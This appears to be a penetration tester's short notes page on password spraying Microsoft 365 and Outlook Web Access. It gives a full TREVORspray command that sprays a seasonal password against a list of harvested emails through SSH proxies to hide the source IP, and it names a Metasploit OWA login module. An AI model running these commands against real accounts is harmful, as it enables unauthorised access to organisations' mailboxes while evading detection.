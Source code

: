 ```yaml
---
description: >-
  A list of tools and resources that I use for password spraying Microsoft
  products.
---
```


# Spray Microsoft

## Attacking Office365

A tool that I've had a large amount of success with is [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray):

```bash
./trevorspray.py -e /opt/trevorspray/log/valid_emails.txt -passwords 'Winter2021' --delay 1 --no-current-ip --ssh [SSH SERVERS] -k (KEY)
```

### Attacking OWA

Metasploit has a great module for attacking OWA:

```bash
auxiliary/scanner/http/owa_login
```
